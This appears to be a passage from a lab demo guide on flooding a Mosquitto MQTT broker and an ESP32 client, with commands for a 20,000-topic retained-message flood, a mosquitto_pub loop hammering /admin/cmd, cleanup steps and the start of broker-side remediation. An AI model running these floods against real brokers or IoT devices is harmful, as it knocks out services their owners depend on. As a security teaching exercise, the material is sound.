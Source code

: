 
Run it:

```bash
python3 attacker_topic_churn.py --host <RPI_IP> --user attacker2 --pw attackerpass --count 20000 --qos 1
```

**Optional (worse):** add `--retain` to **fill the broker** with 20k retained topics.

**What you’ll see**

* `$SYS/…/received` grows fast
* If a user (or dashboard) is subscribing to `#`, it will **receive an avalanche**
* With `--retain`, the broker’s retained store grows (memory/disk usage); new `#` subscribers **instantly** get flooded

---

##  Part C — Direct client overload (hammer `/admin/cmd`)

*(Do this only briefly — it will spam the ESP32 callback.)*

```bash
yes "on" | head -n 20000 | mosquitto_pub -u attacker2 -P attackerpass -h <RPI_IP> -t /admin/cmd -l -q 1
```

**Expected effect**

* ESP32’s `callback` fires thousands of times; LED may appear stuck/rapid flicker
* If your sketch toggles GPIO per message, the loop will get busy; Wi-Fi/MQTT keepalive may suffer (eventually disconnect/reconnect)

---

##  Cleanup after demo

* Kill any running publishers.
* If you used retained spam:

  ```bash
  # Clear all retained flood topics (scripted)
  for i in $(seq -w 000000 019999); do
    mosquitto_pub -u attacker2 -P attackerpass -h <RPI_IP> -t flood/$i -n -r
  done
  ```
* Consider purging retained entries by **overwriting with empty** payloads (as above).

---

#  Remediation (broker-side)

> Mosquitto has **queue/inflight/size** limits. Set these to keep bad clients from starving the broker or others.
